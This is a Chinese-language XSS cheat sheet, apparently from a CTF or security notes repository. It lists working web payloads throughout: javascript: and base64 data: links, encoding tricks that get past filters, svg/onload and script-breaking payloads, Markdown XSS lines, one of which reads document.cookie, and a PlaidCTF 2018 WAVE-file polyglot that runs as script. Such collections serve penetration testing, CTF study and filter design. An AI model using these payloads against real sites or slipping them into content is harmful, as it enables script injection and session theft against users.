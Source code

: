 - 偽協議
  - javascript:
    - `<a href=javascript:alert(1) >xss</a>`
  - data:
    - `<a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==>xss</a>`
- Javascript自解碼機制
  - `<input type="button" onclick="document.write('&lt;img src=@ onerror=alert(1) /&gt;')" />`
  - 會成功`alert(1)`，因為javascript位於HTML中，在執行javascript前會先解碼HTML編碼
  - 但若是包在`<script>`中的javascript，不會解碼HTML編碼
  - 此編碼為HTML entity和`&#xH;`(hex), `&#D;`(dec)形式

- Javascript中有三套編碼/解碼函數
  - escape/unescape
  - encodeURI/decodeURI
  - encodeURIComponent/decodeURICompinent

- 一些alert(document.domain)的方法
  - `(alert)(document.domain);`
  - `al\u0065rt(document.domain);`
  - `al\u{65}rt(document.domain);`
  - `window['alert'](document.domain);`
  - `alert.call(null,document.domain);`
  - `alert.bind()(document.domain);`
  - https://gist.github.com/tomnomnom/14a918f707ef0685fdebd90545580309

- Some Payload
  - `<svg/onload=alert(1);alert(2)>`
  - `<svg/onload="alert(1);alert(2)">`
  - `<svg/onload="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;;alert(2)">`
    - `;;`改成`;`會失敗
    - 雙引號可去掉
    - 可10進位, 16進位混合
  - `<svg/onload=\u0061\u006c\u0065\u0072\u0074(1)>`
    - \u形式只能用在javascript，例如onload的a改成\u0061會失敗
  - `<title><a href="</title><svg/onload=alert(1)>`
    - title優先權較大，直接中斷其他標籤
  - `<svg><script>prompt&#40;1)</script>`
    - 因為`<svg>`，HTML Entities會被解析
    - 去掉`<svg>`會失敗，`<script>`不會解析Entities
  - `<? foo="><script>alert(1)</script>">`
  - `<! foo="><script>alert(1)</script>">`
  - `</ foo="><script>alert(1)</script>">`
  - `<% foo="><script>alert(1)</script>">`

- Markdown XSS
  - `[a](javascript:prompt(document.cookie))`
  - `[a](j a v a s c r i p t:prompt(document.cookie))`
  - `[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)`
  - `[a](javascript:window.onerror=alert;throw%201)`
  - ...

- 文件XSS
  - Example: PlaidCTF 2018 wave XSS
  - 上傳.wave檔 (會檢查signatures)
    ```
    RIFF`....WAVE...`
    alert(1);
    function RIFF(){}
    ```
    - 變成合法的js語法
    - wave在apache mime type中沒有被定義
    - `<script src="uploads/this_file.wave">`

